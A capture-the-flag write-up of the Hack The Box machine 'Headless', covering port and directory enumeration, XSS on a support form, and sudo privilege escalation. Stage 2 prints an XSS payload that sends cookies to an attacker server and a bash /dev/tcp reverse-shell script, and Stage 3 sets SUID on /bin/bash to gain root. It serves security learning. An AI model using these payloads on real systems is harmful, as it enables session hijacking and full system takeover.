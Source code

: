 # Introduction
Hey There. Welcome to another HTB writeup. Today we will be covering Headless, a linux machine.
The core concepts being taught by pwning this machine are:
-- XSS
-- Privilege Escalation using SUDO

Without furthur ado, let's jump right in.

# Stage 1: Scanning and Enumeration
## Nmap Scan

Running an nmap scan (nmap -sC -sV **IP Address**) to see which ports are open, we get the following output:

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-24 12:35 EAT
Nmap scan report for 10.10.11.8
Host is up (0.71s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sun, 24 Mar 2024 09:38:46 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/24%Time=65FFF4A7%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Sun,\x2024\x20Mar\x202024\x2009:38:46\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 338.81 seconds

Ok, so we have a default ssh port open and a python web server running on port 5000.

Inspecting the home page, we get the hint below which suggests that we might have to alter the value of is_admin cookie.
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/is_admin_cookie(1).png)

## Web Directory Enumeration

Running GoBuster presents us with the following result:
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dashboard            (Status: 500) [Size: 265]
/support              (Status: 200) [Size: 2363]

===============================================================
Finished
===============================================================

NB: The reason it is showing status 500 (Internal Server Error) for /dashboard is because when I was running GoBuster, I had not specified that the cookie "is_admin" is to be used. Otherwise the status should be 401 (Unauthorized).

Checking out /dashboard, we get this:
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/Unauthorized(2).png)

This confirms that indeed the value of is_admin needs to be different so as to grant access to this part of the page.

Checking out /support, we get this:
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/Support_page(3).png)

To test for XSS, intercept the request, alter it and forward the request as shown below:
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/Intercept_request(4).png)

The webpage responds as shown after forwarding the request:
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/hacking_attempt_detected(5).png)

This indeed confirms the existence of an XSS vulnerability on the web server.

# Stage 2: Exploitation

After carrying out research on different ways of exploiting XSS, I attempted to see whether I can get a cookie from the web server by sending an XSS Payload that connects to my own server.

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/own_server(6).png)

XSS Payload: <img src=x onerror=fetch('http://**IP Address**:8000/'+document.cookie);>

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/burpsuite_xss_payload(7).png)

Another cookie is obtained:

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/connected_to_own_server(8).png)

Replacing the value of is_admin with this newly obtained value and attempt to navigate to the dashboard page, we are able to see this:

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/admin_dashboard(9).png)

At this point, since getting the web server to connect to my own server worked, why not try to get it to fetch a script from the same server and execute it e.g. a reverse shell?

the script:

#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/**IP Address**/**Port** 0>&1'

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/burpsuite_revshell(10).png)

A reverse shell is spawned!

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/revshell(11).png)

The first flag:
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/userflag(12).png)

# Stage 3: Privilege Escalation

The second flag is obtained by exploiting SUDO

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/sudo_l(13).png)

Opening the file using cat:

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/opening_syscheck(14).png)

initdb.sh might have been deleted therefore we can create the same file, change the permissions for /bin/bash so that /bin/bash can be executed with the permissions of the owner and not the permissions of dvir and execute syscheck using sudo rights

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/create_initdb_file(15).png)

![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/escalated_privs(16).png)

Running /bin/bash -p launches the bash shell with privileged access, due to the -p option. This option sets the effective user ID (EUID) to the real user ID (RUID), effectively giving the user running the command the permissions of the file's owner (usually root).

Finally, the flag is obtained from the root folder
![Alt Text](/home/logz/Desktop/CTFs/HTB/Headless/writeup/root_flag(17).png)















